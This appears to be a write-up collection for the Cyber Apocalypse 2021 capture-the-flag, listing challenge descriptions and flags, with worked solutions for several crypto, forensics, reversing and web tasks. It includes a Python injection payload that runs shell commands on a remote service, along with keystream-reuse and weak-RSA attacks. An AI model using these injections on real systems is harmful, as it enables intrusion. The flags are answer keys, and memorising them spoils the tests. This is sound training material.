[*Back to top*](#cyber-apocalypse-2021)

---

## Extortion

  

**Challenge Category**


**Challenge Description**

```
We finished building sturdy space ships. Its time to get on-board and wipe
enemy bases.
This challenge will raise 43 euros for a good cause.
```

**Flag**

```
CHTB{th4ts_4_w31rd3xt0rt10n@#$?}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## Forge of Empires

  

**Challenge Category**


**Challenge Description**

```
Over thousands of miles, a messenger from the East has arrived with the
sacred text. To enable PHOTON MAN and crush the aliens with your robot
troopers, the messenger needs you to sign your message!
This challenge will raise 43 euros for a good cause.
```

**Challenge Files**

[crypto_forge_of_empires.zip](files/forge_of_empires/crypto_forge_of_empires.zip)

**Flag**

```
CHTB{Elgamal_remember_to_hash_your_messages!}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## gcloud pwn

  

**Challenge Category**


**Challenge Description**

```
The aliens have discovered google cloud as their choice of preference for
their hosting needs. And now they are using it to scrape the internet using
their pdf generation proxy, what could go wrong?
http://162.222.183.14:1337/
http://162.222.183.14:1338/
http://162.222.183.14:1339/
http://162.222.183.14:2000/
Role name: pdfme-role@essential-hawk-310212.iam.gserviceaccount.com
This challenge will raise 80 euros for a good cause.
```

**Challenge Files**

[web_gcloud_pwn.zip](files/gcloud_pwn/web_gcloud_pwn.zip)

**Flag**

```
CHTB{l00k_4t_m3_n0w_I_0wn_4ll_th3_cl0ut!}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## Harvester

  

**Challenge Category**


**Challenge Description**

```
These giant bird-looking creatures come once a day and harvest
everything from our farms, leaving nothing but soil behind. We need to do
something to stop them, otherwise there will be no food left for us. It will
be even better instead of stopping them, tame them and take advantage of
them! They seem to have some artificial implants, so if we hack them, we
can take advantage of them. These creatures seem to love cherry pies for
some reason..
This challenge will raise 43 euros for a good cause.
```

**Challenge Files**

[pwn_harvester.zip](files/harvester/pwn_harvester.zip)

**Flag**

```
CHTB{h4rv35t3r_15_ju5t_4_b1g_c4n4ry}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## Hidden

  

**Challenge Category**


**Challenge Description**

```
We found a set of devices connected to our serial network that are
transmiting encrypted messages. We believe that some of them are still
active in our network and thus we captured a sample trace for analysis.
The firmware from the devices we already removed will help you with
your mission
This challenge will raise 80 euros for a good cause.
```

**Challenge Files**

[hw_hidden.zip](files/hidden/hw_hidden.zip)

**Flag**

```
CHTB{10w_13v31_f12mw4235_741ks_70_h42dw423_!@3418}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## Hyper Metroid

  

**Challenge Category**


**Challenge Description**

```
Dropping a morph ball bomb, Samus cracked open the floor and dropped
down into the guts of Phaaze. At the end of the tunnel is a locked chest
containing the hyper beam upgrade. Samus found the encrypted key
preserved in a ball of glowing biomass, but can't decode it. Help Samus
capture the flag so she can eradicate the alien invasion once and for all.
This challenge will raise 120 euros for a good cause.
```

**Challenge Files**

[crypto_hyper_metroid.zip](files/hyper_metroid/crypto_hyper_metroid.zip)

**Flag**

```
CHTB{hyp3r_sp33d_c0unting!!}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## Input as a Service

  

**Challenge Category**


**Challenge Description**

```
In order to blend with the extraterrestrials, we need to talk and sound like
them. Try some phrases in order to check if you can make them believe
you are one of them.
This challenge will raise 33 euros for a good cause.
```

**Flag**

```
CHTB{4li3n5_us3_pyth0n2.X?!}
```

### Solution

This is what we see when we connect to the program.

```python
$ nc 138.68.178.56 32460
2.7.18 (default, Apr 20 2020, 19:51:05)
[GCC 9.2.0]
Do you sound like an alien?
>>>

```

It looks like the server is running python. Let's try injecting some python code:

```python
$ nc 138.68.178.56 32460
2.7.18 (default, Apr 20 2020, 19:51:05)
[GCC 9.2.0]
Do you sound like an alien?
>>>
__import__('os').system('ls')
flag.txt
input_as_a_service.py
__import__('os').system('cat flag.txt')
CHTB{4li3n5_us3_pyth0n2.X?!}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## Inspector Gadget

  

**Challenge Category**


**Challenge Description**

```
Inspector Gadget was known for having a multitude of tools available for every occasion. Can you find them all?
This challenge will raise 33 euros for a good cause.
```

**Flag**

```
CHTB{1nsp3ction_c4n_r3ve4l_us3full_1nf0rm4tion}
```

### Solution

When we visit the site, we see this:


We can see the beginning of the flag, but the rest of it is missing. Let's check the source code to see if we can find the rest of it.


Looks like we've got the second half, but there's parts missing. Let's keep digging around.


The last part can be found in the console output from `main.js`.


[*Back to top*](#cyber-apocalypse-2021)

---

## Invitation

  

**Challenge Category**


**Challenge Description**

```
Last night I recieved an invitation, but after I accepted, some wierd things
happend in my computer.
This challenge will raise 33 euros for a good cause.
```

**Challenge Files**

[forensics_invitation.zip](files/invitation/forensics_invitation.zip)

**Flag**

```
CHTB{maldocs_are_the_new_meta}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## Key mission

  

**Challenge Category**


**Challenge Description**

```
The secretary of earth defense has been kidnapped. We have sent our
elite team on the enemy's base to find his location. Our team only
managed to intercept this traffic. Your mission is to retrieve secretary's
hidden location.
This challenge will raise 33 euros for a good cause.
```

**Challenge Files**

[forensics_key_mission.zip](files/key_mission/forensics_key_mission.zip)

**Flag**

```
CHTB{a_plac3_fAr_fAr_away_fr0m_earth}
```

### Solution

For this challenge, we are provided with a pcap filled with keyboard input.

We can extract the keyboard data with this command:

```bash
tshark -nr key_mission.pcap -Y 'usbhid.data && usb.device_address == 2' -T fields -e usbhid.data > key_mission.txt
```

Now we can parse the data with this script:

```python
#!/usr/bin/env python3
import sys


# HID Usage Tables Table 12
# https://usb.org/sites/default/files/documents/hut1_12v2.pdf

# Byte 0
MODIFIER_CODES = {
    0x01: '[LCTRL]', 0x02: '[LSHIFT]', 0x04: '[LALT]', 0x08: '[LMETA]',
    0x10: '[RCTRL]', 0x20: '[RSHIFT]', 0x40: '[RALT]', 0x80: '[RMETA]'
}

# Byte 2-7
KEY_CODES = {
    # Alphanumeric Keys
    0x04: ['a', 'A'], 0x05: ['b', 'B'], 0x06: ['c', 'C'], 0x07: ['d', 'D'],
    0x08: ['e', 'E'], 0x09: ['f', 'F'], 0x0A: ['g', 'G'], 0x0B: ['h', 'H'],
    0x0C: ['i', 'I'], 0x0D: ['j', 'J'], 0x0E: ['k', 'K'], 0x0F: ['l', 'L'],
    0x10: ['m', 'M'], 0x11: ['n', 'N'], 0x12: ['o', 'O'], 0x13: ['p', 'P'],
    0x14: ['q', 'Q'], 0x15: ['r', 'R'], 0x16: ['s', 'S'], 0x17: ['t', 'T'],
    0x18: ['u', 'U'], 0x19: ['v', 'V'], 0x1A: ['w', 'W'], 0x1B: ['x', 'X'],
    0x1C: ['y', 'Y'], 0x1D: ['z', 'Z'], 0x1E: ['1', '!'], 0x1F: ['2', '@'],
    0x20: ['3', '#'], 0x21: ['4', '$'], 0x22: ['5', '%'], 0x23: ['6', '^'],
    0x24: ['7', '&'], 0x25: ['8', '*'], 0x26: ['9', '('], 0x27: ['0', ')'],

    # Special Characters
    0x2C:[' ', ' '], 0x2D:['-', '_'], 0x2E:['=', '+'], 0x2F:['[', '{'],
    0x30:[']', '}'], 0x31:['\\', '|'],0x32:['`', '~'], 0x33:[';', ':'],
    0x34:["'", '"'], 0x36:[',', '<'], 0x37:['.', '>'], 0x38:['/', '?'],
}

CONTROL_CODES = {
    # Control Characters
    0x28: '\n', 0x29: '[ESC]', 0x2b: '\t',
    0x2a: '[BACKSPACE]', 0x39: '[CAPS LOCK]',

    # Function Keys
    0x3a: '[F1]', 0x3b: '[F2]', 0x3c: '[F3]', 0x3d: '[F4]',
    0x3e: '[F5]', 0x3f: '[F6]', 0x40: '[F7]', 0x41: '[F8]',
    0x42: '[F9]', 0x43: '[F10]', 0x44: '[F11]', 0x45: '[F12]',

    # Cursor Keys
    0x49: '[INSERT]', 0x4a: '[HOME]', 0x4b: '[PAGEUP]',
    0x4c: '[DELETE]', 0x4d: '[END]', 0x4e: '[PAGEDOWN]',

    # Arrow Keys
    0x4f: '[RIGHT]', 0x50: '[LEFT]', 0x51: '[DOWN]', 0x52: '[UP]',

}

def read_keyboard(data):
    capslock = False
    text = ''
    for i in data:
        keypress = bytes.fromhex(i)
        if keypress[2] not in {**KEY_CODES, **CONTROL_CODES}:
            continue
        if keypress[2] == 0x39:
            capslock = not capslock
        if keypress[0] in [0x02, 0x20]:
            if keypress[2] in KEY_CODES:
                text += KEY_CODES[keypress[2]][1]
            elif keypress[2] in CONTROL_CODES:
                text += MODIFIER_CODES[keypress[0]]
                text += CONTROL_CODES[keypress[2]]
        else:
            if keypress[0] != 0x00:
                text += MODIFIER_CODES[keypress[0]]
            if keypress[2] in KEY_CODES:
                if not capslock:
                    text += KEY_CODES[keypress[2]][0]
                else:
                    if KEY_CODES[keypress[2]][0].isalpha():
                        text += KEY_CODES[keypress[2]][1]
                    else:
                        text += KEY_CODES[keypress[2]][0]
            elif keypress[2] in CONTROL_CODES:
                text += CONTROL_CODES[keypress[2]]
    return text

if __name__ == '__main__':
    if len(sys.argv) == 2:
        with open(sys.argv[1], 'r') as f:
            data = f.read().rstrip().split('\n')
    else:
        raise ValueError(f'Usage: {sys.argv[0]} filename')
    text = read_keyboard(data)
    print(text)
```

Here's the output.

```bash
$ ./readkeyboard.py key_mission.txt
I am sending secretary's location over this totally encrypted channel to make sure no one else will be able to read it except of us. This information is confidential and must not be shared with anyone else. The secretary's hidden location is CHTB{a_plac3_fAr_fAr_away_fr0m_eae[BACKSPACE]rth}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## Little Nightmares

  

**Challenge Category**


**Challenge Description**

```
Never in your darkest momements did your childhood fears prepare you
for an alien invasion. To make matters worse, you've just been given a
Little homework by the Lady. Defeat this and she we retreat into the night.
This challenge will raise 43 euros for a good cause.
```

**Challenge Files**

[crypto_little_nightmares.zip](files/little_nightmares/crypto_little_nightmares.zip)

**Flag**

```
CHTB{Factoring_With_Fermats_Little_Theorem}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## Low Energy Crypto

  

**Challenge Category**


**Challenge Description**

```
Aliens are using a human facility as a storage unit. The owners of the
facility said their access credentials stopped working, but it's based on
Bluetooth LE. We managed to install a Bluetooth LE sniffer close to the
entrance, and captured some packets. Can you manage to get the access
credentials from this capture?
This challenge will raise 43 euros for a good cause.
```

**Challenge Files**

[forensics_low_energy_crypto.zip](files/low_energy_crypto/forensics_low_energy_crypto.zip)

**Flag**

```
CHTB{5p34k_fr13nd_4nd_3n73r}
```

### Solution

For this challenge, we are provided with a pcap of bluetooth traffic between a master and slave device. While looking through the traffic, we see data being transmitted to and received from the slave device. The data received from the slave device appears to be a public key of some kind. After the public key is transmitted, we can see an unreadable hex stream being transmitted from the master device, which is presumably encrypted using the corresponding private key. Since the public key seems extremely short, we are probably able to recover the private key without much effort.

To solve this challenge, all we have to do is extract the key and decrypt the traffic.

We can extract the public key with this command:

```bash
echo -e $(tshark -nr low_energy_crypto.pcapng -Y btgatt.nordic.uart_rx -T fields -e btgatt.nordic.uart_rx) > low_energy_crypto.pub
```

To recover the private key, we can use a tool called RsaCtfTool.

```bash
RsaCtfTool --publickey priv.key --private --output low_energy_crypto.key
```

Now we can solve the challenge with this script.

```python
#!/usr/bin/env python3
from Crypto.Cipher import PKCS1_v1_5
from Crypto.PublicKey import RSA
import pyshark


def get_tx_data():
    pcap = pyshark.FileCapture('low_energy_crypto.pcapng',
                               use_json=True,
                               include_raw=True)
    packet = pcap[229]
    data, *_ = packet.btatt.uart_tx_raw
    return bytes.fromhex(data).rstrip(b'\x00')

def decrypt_flag(data, key_file):
    with open(key_file, 'r') as f:
        key = RSA.importKey(f.read())
    cipher = PKCS1_v1_5.new(key)
    return cipher.decrypt(data, None)


if __name__ == '__main__':
    enc = get_tx_data()

    flag = decrypt_flag(enc, 'low_energy_crypto.key')
    print(flag.decode())
```

[*Back to top*](#cyber-apocalypse-2021)

---

## Millenium

  

**Challenge Category**


**Challenge Description**

```
We fall under attack by unknown forces and noticed a compromise of our
military systems. Its time to show our power by sabotaging their
equipment.
This challenge will raise 43 euros for a good cause.
```

**Flag**

```
CHTB{sw33t_l33t_s3r14lzz_@$#?}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## Minefield

  

**Challenge Category**


**Challenge Description**

```
We found one of the core power plants that drain all of our resources. One
member of our team is an expert at mines. Plant the correct type of mine
at the correct location to blow up the entire power plant, but be careful,
otherwise we are all doomed!
This challenge will raise 33 euros for a good cause.
```

**Challenge Files**

[pwn_mindfield.zip](files/minefield/pwn_mindfield.zip)

**Flag**

```
CHTB{d3struct0r5_m1n3f13ld}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## MiniSTRyplace

  

**Challenge Category**


**Challenge Description**

```
Let's read this website in the language of Alines. Or maybe not?
This challenge will raise 33 euros for a good cause.
```

**Challenge Files**

[web_ministryplace.zip](files/ministryplace/web_ministryplace.zip)

**Flag**

```
CHTB{b4d_4li3n_pr0gr4m1ng}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## Nintendo Base64

  

**Challenge Category**


**Challenge Description**

```
Aliens are trying to cause great misery for the human race by using our own
cryptographic technology to encrypt all our games.
Fortunately, the aliens haven't played CryptoHack so they're making
several noob mistakes. Therefore they've given us a chance to recover our
games and find their flags.
They've tried to scramble data on an N64 but don't seem to understand
that encoding and ASCII art are not valid types of encryption!
This challenge will raise 33 euros for a good cause.
```

**Challenge Files**

[crypto_nintendo_base64.zip](files/nintendo_base64/crypto_nintendo_base64.zip)

**Flag**

```
CHTB{3nc0d1ng_n0t_3qu4l_t0_3ncrypt10n}
```

### Solution

For this challenge, we are given a file which contains this text:

```
            Vm                                                   0w               eE5GbFdWW         GhT            V0d4VVYwZ
            G9              XV                                   mx              yWk    ZOV       1JteD           BaV     WRH
                            YW                                   xa             c1              NsWl dS   M1   JQ WV       d4
S2RHVkljRm  Rp UjJoMlZrZH plRmRHV m5WaVJtUl hUVEZLZVZk   V1VrZFpWMU  pHVDFaV1Z  tSkdXazlXYW   twdl   Yx    Wm Fj  bHBFVWxWTlZ
Xdz     BWa 2M xVT     FSc  1d   uTl     hi R2h     XWW taS     1dG VXh     XbU ZTT     VdS elYy     cz     FWM    kY2VmtwV2
JU       RX dZ ak       Zr  U0   ZOc2JGWmlS a3       BY V1       d0 YV       lV MH       hj RVpYYlVaVFRWW  mF lV  mt       3V
lR       GV 01 ER       kh  Zak  5rVj   JFe VR       Ya Fdha   3BIV mpGU   2NtR kdX     bWx          oT   TB   KW VYxW   lNSM
Wx       XW kV kV       mJ  GWlRZ bXMxY2xWc 1V       sZ  FRiR1J5VjJ  0a1YySkdj   RVpWVmxKV           1V            GRTlQUT09
```

This text contains a base64 string which was split up into pieces to create ascii art. We can solve this challenge with a simple script:

```python
#!/usr/bin/env python3
from base64 import b64decode


if __name__ == '__main__':
    with open('output.txt', 'rb') as f:
        text = f.read()
    while b'CHTB{' not in text:
        text = b64decode(text)
    print(text.decode())
```

[*Back to top*](#cyber-apocalypse-2021)

---

## Off the grid

  

**Challenge Category**


**Challenge Description**

```
One of our agents managed to store some valuable information in an air-
gapped hardware password manage and delete any trace of them in our
network before it got compromised by the invaders but the device got
damaged during transportation and its OLED screen broke. We need help
to recover the information stored in it!
This challenge will raise 43 euros for a good cause.
```

**Challenge Files**

[hw_off_the_grid.zip](files/off_the_grid/hw_off_the_grid.zip)

**Flag**

```
CHTB{013d_h4ck1n9_f7w!2^25#}
```

### Summary

Extract the data from `off_the_grid.sal` with `c0` as `MOSI`, `c1` as `Clock`, and `c3` as `Enable` with the `Enable Line` set to `Enable line is Active High`. Then, reconstruct the OLED screens with this [script](files/off_the_grid/solve.py).

### Solution

This challenge involves analyzing data being sent to be displayed on an OLED screen. We can use a tool, [Saleae](https://www.saleae.com/), to read the data for us.

For this challenge, we a provided with a schematic for the OLED device.


From this, we can tell what each channel belongs to:

|Channel|Pin|SPI Signal|
|---|---|---|
|c0|Data In (DIN)|Master Out Slave In (MOSI)|
|c1|Clock (CLK)|Clock|
|c2|Chip Select (CS)|N/A|
|c3|Data/Command Select (D/C)|Enable|
|c4|Reset (RST)|N/A|
|c5|N/A|N/A|

One important thing to note is that, since we are trying to read the data being displayed on the OLED screen, we only care about when the `D/C` signal is high, which indicates data is being sent. This will ensure we only extract the data being displayed.

Now we just have to extract the data with the following settings:


Unfortunately, we still need to find out how to process the data to render the screen. After a bit of Googling:tm:, we see this:


Now all we have to do is render the screens as shown above.

```python
#!/usr/bin/env python3
import csv
from PIL import Image


def split_screens(data):
    screens = []
    for i in range(0, len(data), 64//8*128):
        screens.append(data[i:i + 64//8*128])
    return screens

def render_img(data, background='black', magnify=4):
    if magnify <= 0:
        raise ValueError(f'Magnify must be a positive integer')
    if background not in ['black', 'white']:
        raise ValueError(f'Invalid background color: {background}')
    pixels = b''
    for page in range(8):
        columns = data[page*128:page*128+128]
        rows = []
        for row in range(8):
            row_data = 0
            for col in columns:
                row_data = (row_data<<1)|(col>>row&1)
                if background == 'white':
                    row_data ^= 1
            pixels += row_data.to_bytes(128//8, 'big')
    img = Image.frombytes('1', (128, 64), pixels)
    return img.resize((128*magnify, 64*magnify))

def vertical_merge(imgs):
    width = max(img.width for img in imgs)
    height = sum(img.height for img in imgs)
    merged = Image.new('1', (width, height))
    h = 0
    for img in imgs:
        merged.paste(img, (0, h))
        h += img.height
    return merged


if __name__ == '__main__':
    with open('off_the_grid.csv', 'r') as f:
        reader = csv.DictReader(f)
        data = b''
        for row in reader:
            data += bytes([int(row['MOSI'], 16)])

    screens = split_screens(data)
    img = vertical_merge([render_img(screen) for screen in screens])
    img.save('screens.png')
```

I initially rendered the screens as text, but it was difficult to read because of how long the lines were. So I rewrote it to render as an image... And there's the flag.


If you prefer text over image, see my full script [here](files/off_the_grid/solve.py).

### References

[SSD1306 Datasheet](https://cdn-shop.adafruit.com/datasheets/SSD1306.pdf)\
[SSD1306 OLED Display](https://www.electronicwings.com/sensors-modules/ssd1306-oled-display)

[*Back to top*](#cyber-apocalypse-2021)

---

## Oldest trick in the book

  

**Challenge Category**


**Challenge Description**

```
A data breach has been identified. The invaders have used the oldest trick
in the book. Make sure you can identify what got stolen from us.
This challenge will raise 33 euros for a good cause.
```

**Challenge Files**

[forensics_oldest_trick.zip](files/oldest_trick_in_the_book/forensics_oldest_trick.zip)

**Flag**

```
CHTB{long_time_no_s33_icmp}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## Passphrase

  

**Challenge Category**


**Challenge Description**

```
You found one of their space suits forgotten in a room. You wear it, but
before you go away, a guard stops you and asks some questions..
This challenge will raise 33 euros for a good cause.
```

**Challenge Files**

[rev_passphrase.zip](files/passphrase/rev_passphrase.zip)

**Flag**

```
CHTB{3xtr4t3rR3stR14L5_VS_hum4n5}
```

### Solution

This challenge involves reversing a binary to retrieve the flag. Let's open it in gdb and see whats going on.

```bash
$ gdb -q passphrase
Reading symbols from ./passphrase...
(No debugging symbols found in ./passphrase)
(gdb) disas main
Dump of assembler code for function main:
...
   0x00000000000009f1 <+43>:    movb   $0x33,-0x50(%rbp)
   0x00000000000009f5 <+47>:    movb   $0x78,-0x4f(%rbp)
   0x00000000000009f9 <+51>:    movb   $0x74,-0x4e(%rbp)
   0x00000000000009fd <+55>:    movb   $0x72,-0x4d(%rbp)
   0x0000000000000a01 <+59>:    movb   $0x34,-0x4c(%rbp)
   0x0000000000000a05 <+63>:    movb   $0x74,-0x4b(%rbp)
   0x0000000000000a09 <+67>:    movb   $0x33,-0x4a(%rbp)
   0x0000000000000a0d <+71>:    movb   $0x72,-0x49(%rbp)
   0x0000000000000a11 <+75>:    movb   $0x52,-0x48(%rbp)
   0x0000000000000a15 <+79>:    movb   $0x33,-0x47(%rbp)
...
   0x0000000000000a3d <+119>:   movb   $0x73,-0x46(%rbp)
   0x0000000000000a41 <+123>:   movb   $0x74,-0x45(%rbp)
   0x0000000000000a45 <+127>:   movb   $0x52,-0x44(%rbp)
   0x0000000000000a49 <+131>:   movb   $0x31,-0x43(%rbp)
   0x0000000000000a4d <+135>:   movb   $0x34,-0x42(%rbp)
   0x0000000000000a51 <+139>:   movb   $0x4c,-0x41(%rbp)
   0x0000000000000a55 <+143>:   movb   $0x35,-0x40(%rbp)
   0x0000000000000a59 <+147>:   movb   $0x5f,-0x3f(%rbp)
   0x0000000000000a5d <+151>:   movb   $0x56,-0x3e(%rbp)
...
   0x0000000000000a79 <+179>:   movb   $0x53,-0x3d(%rbp)
   0x0000000000000a7d <+183>:   movb   $0x5f,-0x3c(%rbp)
   0x0000000000000a81 <+187>:   movb   $0x68,-0x3b(%rbp)
   0x0000000000000a85 <+191>:   movb   $0x75,-0x3a(%rbp)
...
   0x0000000000000a9e <+216>:   movb   $0x6d,-0x39(%rbp)
   0x0000000000000aa2 <+220>:   movb   $0x34,-0x38(%rbp)
   0x0000000000000aa6 <+224>:   movb   $0x6e,-0x37(%rbp)
   0x0000000000000aaa <+228>:   movb   $0x35,-0x36(%rbp)
   0x0000000000000aae <+232>:   movb   $0x0,-0x35(%rbp)
```

While looking at the disassembled code, we see the a string being built one character at a time throughout the program. We could attempt to reconstruct the string one character at a time... or just let the program run and dump the string after it's created.

```bash
(gdb) break *main+236
Breakpoint 1 at 0xab2
(gdb) r
Starting program: /home/kali/CTF/2021/htb_apocalypse/reverse/htb/passphrase

Halt! ⛔
You do not look familiar..
Tell me the secret passphrase:

Breakpoint 1, 0x0000555555400ab2 in main ()
(gdb) x/s $rbp-0x50
0x7fffffffdea0: "3xtr4t3rR3stR14L5_VS_hum4n5"
```

[*Back to top*](#cyber-apocalypse-2021)

---

## pcalc

  

**Challenge Category**


**Challenge Description**

```
A calculator service has been deployed at an enemy's agency, for their
personel to be acquainted with human numbers. We need to inflitrate the
application and get access to the secret flag stored inside it's system!
This challenge will raise 43 euros for a good cause.
```

**Challenge Files**

[web_pcalc.zip](files/pcalc/web_pcalc.zip)

**Flag**

```
CHTB{I_d0nt_n33d_puny_hum4n_l3tt3rs_t0_pwn!}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## PhaseStream 1

  

**Challenge Category**


**Challenge Description**

```
The aliens are trying to build a secure cipher to encrypt all our games
called "PhaseStream". They've heard that stream ciphers are pretty good.
The aliens have learned of the XOR operation which is used to encrypt a
plaintext with a key. They believe that XOR using a repeated 5-byte key is
enough to build a strong stream cipher. Such silly aliens! Here's a flag they
encrypted this way earlier. Can you decrypt it (hint: what's the flag format?)
2e313f2702184c5a0b1e321205550e03261b094d5c171f56011904
This challenge will raise 33 euros for a good cause.
```

**Flag**

```
CHTB{u51ng_kn0wn_pl41nt3xt}
```

### Solution

For this challenge, we need to decrypt a block of encrypted text. In the challenge description, we are told the text is encrypted with a repeating 5-byte XOR key. Since we know the flag format, we can use it to recover the key by XORing the ciphertext with our known plaintext. We can then use that key to decrypt the rest of the flag.

```python
#!/usr/bin/env python3
def xor(data, key):
    return bytes([c ^ key[i % len(key)] for i, c in enumerate(data)])


if __name__ == '__main__':
    ct = bytes.fromhex('2e313f2702184c5a0b1e321205550e03261b094d5c171f56011904')
    key = xor(ct[:5], b'CHTB{')
    flag = xor(ct, key)
    print(flag.decode())
```

[*Back to top*](#cyber-apocalypse-2021)

---

## PhaseStream 2

  

**Challenge Category**


**Challenge Description**

```
The aliens have learned of a new concept called "security by obscurity".
Fortunately for us they think it is a great idea and not a description of a
common mistake. We've intercepted some alien comms and think they are
XORing flags with a single-byte key and hiding the result inside 9999 lines
of random data, Can you find the flag?
This challenge will raise 33 euros for a good cause.
```

**Challenge Files**

[crypto_ps2.zip](files/phasestream_2/crypto_ps2.zip)

**Flag**

```
CHTB{n33dl3_1n_4_h4yst4ck}
```

### Solution

For this challenge, the flag is XORed with a single byte key along with a large amount of random data. We can solve this challenge by brute forcing all 256 possibilities and searching for the flag format.

```python
#!/usr/bin/env python3
def xor(data, key):
    return bytes([c ^ key[i % len(key)] for i, c in enumerate(data)])

def find_flag(data, flag_format):
    for i in range(256):
        decrypted = [xor(ct, bytes([i])) for ct in data]
        for line in decrypted:
            if line.startswith(b'CHTB{'):
                return line


if __name__ == '__main__':
    with open('output.txt', 'r') as f:
        data = list(map(bytes.fromhex, f.read().rstrip('\n').split('\n')))
    flag = find_flag(data, b'CHTB{')
    print(flag.decode())
```

[*Back to top*](#cyber-apocalypse-2021)

---

## PhaseStream 3

  

**Challenge Category**


**Challenge Description**

```
The aliens have learned the stupidity of their misunderstanding of
Kerckhoffs's principle. Now they're going to use a well-known stream
cipher (AES in CTR mode) with a strong key. And they'll happily give us
poor humans the source because they're so confident it's secure!
This challenge will raise 33 euros for a good cause.
```

**Challenge Files**

[crypto_ps3.zip](files/phasestream_3/crypto_ps3.zip)

**Flag**

```
CHTB{r3u53d_k3Y_4TT4cK}
```

### Solution

For this challenge, we are given a script which tells us how the flag was encrypted:

```python
from Crypto.Cipher import AES
from Crypto.Util import Counter
import os

KEY = os.urandom(16)


def encrypt(plaintext):
    cipher = AES.new(KEY, AES.MODE_CTR, counter=Counter.new(128))
    ciphertext = cipher.encrypt(plaintext)
    return ciphertext.hex()


test = b"No right of private conversation was enumerated in the Constitution. I don't suppose it occurred to anyone at the time that it could be prevented."
print(encrypt(test))

with open('flag.txt', 'rb') as f:
    flag = f.read().strip()
print(encrypt(flag))
```

It looks like the test text and flag were encrypted with AES using the Counter (CTR) mode. We can also see that the encryption function uses the same key to encrypt the plaintext and the flag. Since AES CTR mode is a stream cipher, each individual byte of the flag is encrypted with the same key as the corresponding character in the test text. This effectively turns this challenge into an XOR challenge.

Since we know what the test text is, we can solve this challenge by taking the encrypted and decrypted test text and XORing them with each other to recover the key. We can then take that key to XOR it with the encrypted flag to recover the decrypted flag.

```python
#!/usr/bin/env python3
if __name__ == '__main__':
    with open('output.txt', 'r') as f:
        ct = list(zip(*map(bytes.fromhex, f.read().rstrip('\n').split('\n'))))

    pt = (b"No right of private conversation was enumerated in the"
          b"Constitution. I don't suppose it occurred to anyone at"
          b"the time that it could be prevented.")
    flag = bytes([ct1 ^ ct2 ^ c for (ct1, ct2), c in zip(ct, pt)])
    print(flag.decode())
```

[*Back to top*](#cyber-apocalypse-2021)

---

## PhaseStream 4

  

**Challenge Category**


**Challenge Description**

```
The aliens saw us break PhaseStream 3 and have proposed a quick fix to
protect their new cipher.
This challenge will raise 43 euros for a good cause.
```

**Challenge Files**

[crypto_ps4.zip](files/phasestream_4/crypto_ps4.zip)

**Flag**

```
CHTB{stream_ciphers_with_reused_keystreams_are_vulnerable_to_known_plaintext_attacks}
```

### Solution

Source code:

```python
from Crypto.Cipher import AES
from Crypto.Util import Counter
import os

KEY = os.urandom(16)


def encrypt(plaintext):
    cipher = AES.new(KEY, AES.MODE_CTR, counter=Counter.new(128))
    ciphertext = cipher.encrypt(plaintext)
    return ciphertext.hex()


with open('test_quote.txt', 'rb') as f:
    test_quote = f.read().strip()
print(encrypt(test_quote))

with open('flag.txt', 'rb') as f:
    flag = f.read().strip()
print(encrypt(flag))
```

This challenge is the same as the [PhaseStream 3](#phasestream-3), except this time, we do not know what the test text is. Fortunately, we know the flag will contain `CHTB{`. We can use the same concept we used to solve the last level, except this time, we will have swap between the test quote and flag and guess the plaintext based on the decrypted results from the other text.

This attack is called crib dragging. Luckily, there are some [online tools](https://toolbox.lotusfa.com/crib_drag/) to help us solve this interactively.

When we enter `CHTB{` into the crib, we see several matches for readable plaintext, with the most likely match being `I alo` at index 0. Based off that, we can probably guess the first two words of the test quote is `I alone`. Since we can assume the test text is a quote based on the filename, we do a quick Google search for ["I alone" quote](https://www.google.com/search?q="i+alone"+quote) to see if anything promising shows up. The top result was:

```
I alone cannot change the world, but I can cast a stone across the waters to create many ripples.
```

With that quote as a crib, we can almost recover the entire flag. However, it gets messed up somewhere at the end. After a bit of tinkering, we find out the plaintext crib is:

```
I alone cannot change the world, but I can cast a stone across the water to create ma
```

Which gives us the plaintext flag:

```
CHTB{stream_ciphers_with_reused_keystreams_are_vulnerable_to_known_plaintext_attacks}
```

[*Back to top*](#cyber-apocalypse-2021)

---

## Robotic Inflitration

  

**Challenge Category**


**Challenge Description**

```
We were able to hack a robot that was operating at a target facility and log
its readings using ROS. The robot has an advanced lidar scanner, and these
readings should allow us to rebuild the plan for the facility, and will be
essential for the next steps of our mission. drive.google.com/file
/d/168_fK5H_ZFwIg-fA4iZ_1XAWB3Vg3obR
This challenge will raise 43 euros for a good cause.
```

**Challenge Files**

[misc_robotic_inflitration.zip](https://drive.google.com/file/d/168_fK5H_ZFwIg-fA4iZ_1XAWB3Vg3obR)

[misc_robotic_inflitration.zip (backup)](files/robotic_inflitration/misc_robotic_inflitration.zip)

**Flag**

```
CHTB{r0s_1s_r0b0tic_p0w3r}
```

### Solution

For this challenge, we are provided with a file with a `.bag` extension. After a bit of research, we find out this is a rosbag capture. In order to read the data, we need to install ROS. Follow the instructions on their [website](http://wiki.ros.org/ROS/Installation) to install.

Once we're done installing, we can start to analyze the file.

```bash
$ rosbag info capture.bag
path:        capture.bag
version:     2.0
duration:    4:26s (266s)
start:       Dec 31 1969 20:15:49.24 (4549.24)
end:         Dec 31 1969 20:20:15.37 (4815.37)
size:        326.8 MB
messages:    13309
compression: none [403/403 chunks]
types:       nav_msgs/Odometry       [cd5e73d190d741a2f92e81eda573aca7]
             sensor_msgs/PointCloud2 [1158d486dd51d683ce2f1be655c3c181]
             tf2_msgs/TFMessage      [94810edda583a504dfda3829e70d7eec]
topics:      odom              5323 msgs    : nav_msgs/Odometry
             tf                5323 msgs    : tf2_msgs/TFMessage
             tf_static            1 msg     : tf2_msgs/TFMessage
             velodyne_points   2662 msgs    : sensor_msgs/PointCloud2
```

The `topics` tells us what types of messages are in this capture. Now we need to play the messages into the visualization tool.

Run the following commands to launch the tool.

```bash
